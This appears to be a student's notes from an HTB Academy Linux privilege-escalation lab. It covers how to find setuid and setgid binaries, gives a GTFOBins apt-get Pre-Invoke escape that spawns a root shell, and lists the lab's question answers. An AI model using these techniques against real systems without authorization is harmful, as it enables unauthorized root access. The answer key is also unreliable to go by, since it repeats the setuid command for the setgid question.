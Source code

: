 The `Set User ID upon Execution` (`setuid`) permission can allow a user to execute a program or script with the permissions of another user, typically with elevated privileges. The `setuid` bit appears as an `s`.

```shell-session
KaoruRyusaki@htb[/htb]$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

-rwsr-xr-x 1 root root 16728 Sep  1 19:06 /home/htb-student/shared_obj_hijack/payroll
-rwsr-xr-x 1 root root 16728 Sep  1 22:05 /home/mrb3n/payroll
-rwSr--r-- 1 root root 0 Aug 31 02:51 /home/cliff.moore/netracer
-rwsr-xr-x 1 root root 40152 Nov 30  2017 /bin/mount
-rwsr-xr-x 1 root root 40128 May 17  2017 /bin/su
-rwsr-xr-x 1 root root 27608 Nov 30  2017 /bin/umount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 14864 Jan 18  2016 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-sr-x 1 root root 85832 Nov 30  2017 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 428240 Jan 18  2018 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 23376 Jan 18  2016 /usr/bin/pkexec
-rwsr-sr-x 1 root root 240 Feb  1  2016 /usr/bin/facter
-rwsr-xr-x 1 root root 39904 May 17  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 32944 May 17  2017 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 49584 May 17  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 40432 May 17  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 32944 May 17  2017 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 75304 May 17  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 54256 May 17  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 10624 May  9  2018 /usr/bin/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 1588768 Aug 31 00:50 /usr/bin/screen-4.5.0
-rwsr-xr-x 1 root root 94240 Jun  9 14:54 /sbin/mount.nfs
```

It may be possible to reverse engineer the program with the SETUID bit set, identify a vulnerability, and exploit this to escalate our privileges. Many programs have additional features that can be leveraged to execute commands and, if the `setuid` bit is set on them, these can be used for our purpose.

The Set-Group-ID (setgid) permission is another special permission that allows us to run binaries as if we were part of the group that created them. These files can be enumerated using the following command: `find / -uid 0 -perm -6000 -type f 2>/dev/null`. These files can be leveraged in the same manner as `setuid` binaries to escalate privileges.

  Special Permissions

```shell-session
KaoruRyusaki@htb[/htb]$ find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null

-rwsr-sr-x 1 root root 85832 Nov 30  2017 /usr/lib/snapd/snap-confine
```

This [resource](https://linuxconfig.org/how-to-use-special-permissions-the-setuid-setgid-and-sticky-bits) has more information about the `setuid` and `setgid` bits, including how to set the bits.

## GTFOBins

The [GTFOBins](https://gtfobins.github.io/) project is a curated list of binaries and scripts that can be used by an attacker to bypass security restrictions. Each page details the program's features that can be used to break out of restricted shells, escalate privileges, spawn reverse shell connections, and transfer files. For example, `apt-get` can be used to break out of restricted environments and spawn a shell by adding a Pre-Invoke command:

```shell-session
KaoruRyusaki@htb[/htb]$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh

# id
uid=0(root) gid=0(root) groups=0(root)
```

It is worth familiarizing ourselves with as many GTFOBins as possible to quickly identify misconfigurations when we land on a system that we must escalate our privileges to move further.



#### Questions

Find a file with the setuid bit set that was not shown in the section command output (full path to the binary).

* Download the VPN file from the HTB Academy webpage
* Open your VM and go to your Downloads page from the terminal
* Run the command " openvpn academy-regular.ovpn " (if it doesnt work try running the same command with sudo)
* Use the user and password given by HTB and then SSH to the target system spawned for you by running this command "ssh htb-student@\<ip given>\"
* Run command " find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null "
* the binary thats not on the documents output is " /bin/sed "



Find a file with the setgid bit set that was not shown in the section command output (full path to the binary).

* Download the VPN file from the HTB Academy webpage
* Open your VM and go to your Downloads page from the terminal
* Run the command " openvpn academy-regular.ovpn " (if it doesnt work try running the same command with sudo)
* Use the user and password given by HTB and then SSH to the target system spawned for you by running this command "ssh htb-student@\<ip given>\"
* Run command " find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null "
* the binary thats not on the documents output is " /usr/bin/facter "